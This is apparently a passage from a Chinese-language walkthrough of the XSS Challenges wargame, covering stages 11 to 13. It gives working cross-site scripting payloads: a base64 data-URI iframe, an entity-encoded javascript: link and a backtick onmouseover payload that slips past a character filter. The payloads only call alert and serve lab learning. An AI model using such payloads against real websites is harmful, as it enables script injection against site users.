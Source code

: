 	<input type="text" name="p1" size="50" value=""><iframe src="data:text/html;base64,PHNjcmlwdD5hbGVydChkb2N1bWVudC5kb21haW4pOzwvc2NyaXB0Pg=="></iframe>"> 

使用`javascript`伪协议，超链接以及编码。

	"><a href=java&#115;cr&#105;pt:alert(document.domain)>xss</a>


但是，直接使用`<script>`标签，对其进行`Unicode`不可以成功执行。

	"><&#115;cript>alert(document.domain);</&#115;cript>

##### [Stage #12](http://xss-quiz.int21h.jp/stage_no012.php?sid=33e4da789c7fb0321ac2db6f2c45dc574dfa0b8a)

空格、`<`、`>`、`"`、`'`都给过滤了。

	 "s/[\x00-\x20\<\>\"\']//g;"

输入的内容

	&""<><script>

输出的内容

	<input type=text name=p1 size=50 value=&script> 

明显的把`""<>`直接过滤掉了。

不带这些符号的`payload`。过滤了，使用编码转换试试。

反单引号。`，在FireFox没有测试成功，但是在IE10下面可以。

	``onmouseover=alert(document.domain);


##### [Stage #13](http://xss-quiz.int21h.jp/stage13_0.php?sid=1080fd008a8f2004940080dd0f35b2618c4e3314)

	style attribute

输入

	&""<><script>

输出

	<input type="text" name="p1" size="60" style="&amp;&quot;&quot;&lt;&gt;&lt;script&gt;" value="&amp;&quot;&quot;&lt;&gt;&lt;script&gt;"> 





##### 参考

[XSS Challenges Stage 解题报告](http://blog.csdn.net/emaste_r/article/details/16988167)

[Solutions to the wargame XSS Challenges at xss-quiz.int21h.jp](https://github.com/matachi/MaTachi.github.io/blob/master/src/pages/solutions-to-the-wargame-xss-challenges-at-xss-quiz-int21h-jp.md)

